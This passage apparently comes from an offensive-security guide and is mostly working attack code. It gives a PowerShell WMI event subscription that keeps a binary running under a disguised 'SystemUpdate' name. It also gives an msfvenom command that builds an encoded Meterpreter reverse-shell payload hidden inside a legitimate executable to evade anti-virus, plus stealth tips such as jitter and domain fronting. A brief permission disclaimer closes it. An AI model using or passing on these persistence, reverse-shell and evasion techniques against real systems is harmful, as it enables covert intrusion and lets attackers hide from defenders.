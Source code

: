 ### WMI Event Subscription
```powershell
# WMI persistence (requires admin privileges)
$filterArgs = @{
    Name = 'SystemUpdateFilter'
    EventNameSpace = 'root\cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process'"
}

$consumerArgs = @{
    Name = 'SystemUpdateConsumer'
    CommandLineTemplate = "C:\Path\To\persistent.exe"
}

$filter = Set-WmiInstance -Class __EventFilter -Namespace root\subscription -Arguments $filterArgs
$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace root\subscription -Arguments $consumerArgs
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace root\subscription -Arguments @{Filter=$filter;Consumer=$consumer}
```

---

## Considerations and Best Practices

### Anti-Virus Evasion
```bash
# Use multiple encoders and iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -e x86/shikata_ga_nai \
  -i 5 \
  -f exe \
  -k \
  -x /path/to/legitimate.exe \
  -o highly_evasive.exe
```

### Stealth Techniques
- **Use common port numbers** (443, 80, 53)
- **Implement sleep/jitter** between callbacks
- **Use HTTPS payloads** instead of raw TCP
- **Implement domain fronting** where possible

### Legal and Ethical Considerations
- ⚠️ **Only use on systems you own or have explicit permission to test**
- 📝 **Maintain proper documentation and authorization**
- 🔒 **Secure your listener infrastructure**
- 🗑️ **Remove persistence mechanisms after testing**
